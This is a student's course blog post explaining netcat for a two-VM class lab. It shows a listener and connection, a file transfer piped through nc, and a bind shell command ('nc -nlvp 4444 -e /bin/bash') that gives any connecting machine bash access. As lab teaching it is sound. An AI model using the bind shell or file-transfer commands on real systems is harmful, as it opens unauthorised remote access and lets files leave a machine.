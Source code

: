 ```yaml
---
layout: post
title:  "Blog 11 - NETCAT - Reverse turnel"
date:   2020-11-20 11:59:25 -0700
categories: jekyll blogs
auther: "Namtae"
---
```

<h3>NETCAT COMMAND</h3>
<p>This week I have an extra credit for CIT 425 which using NETCAT command</p>
<p>This assignment required 2 vm machines and using ncat command for create a connection between the 2 machines</p>
In my case I'm naming my server machine is Bob and client machine is Alice

On the client machine(Alice) run <code>nc -nlvp 4444</code>
<ul>
    <li>n - numeric-only IP address</li>
    <li>l - listen mode</li>
    <li>p - port</li>
    <li>v - verbose</li>
    <li>4444 - port number 4444
</ul>
This means at the client machine, we run this command for allowing the client to listen on port 4444

On the server machine (Bob) run <code>nc -nv [client's machine IP address] 4444
<ul>
    <li>n - numeric-only IP address</li>
    <li>v - verbose</li>
    <li>[client's machine IP address] - replace with the target machine</li>
</ul>
This mean at the server client, we run this command for connecting the client machine via port 4444


<h3>To transfer file</h3>
If you want to transfer a file from client command

At the server machine 
run <code>nc –nlvp 4444 > fromClient.txt</code>
<ul>
    <li>fromClient.txt - a file that will get a copy of the file that you copy from</li>
</ul>

At the client machine 
run <code>nc –nv [server machine's IP Address] 4444 < [file path]
<ul>
    <li>[server machine's IP Address] - replace this with the target IP address</li>
    <li>[file path] - replace this with your file path
</ul>

<h3>Bind Shell
<p>At alice, execute: touch foo.bar (to make a file named foo.bar in current directory)</br>
At Alice, execute: <code>nc –nlvp 4444 –e /bin/bash</code><br>
At Bob, execute: <code>nc –nv ip.addr.of.alice 4444</code><br>
At Bob, type “ls” and press enter<br>
At Bob, type “whoami” and press enter<br>
Explain why Bob is seeing these results for “ls” and “whoami”<br>
	Because when Alice run nc -nlvp 4444 -e /bin/bash, it is telling the listening port to have an environment of bash. So, anyone who connects to Alice using port 4444, they will be able to use bash command on Alice machine and be able to access her file system. </p>







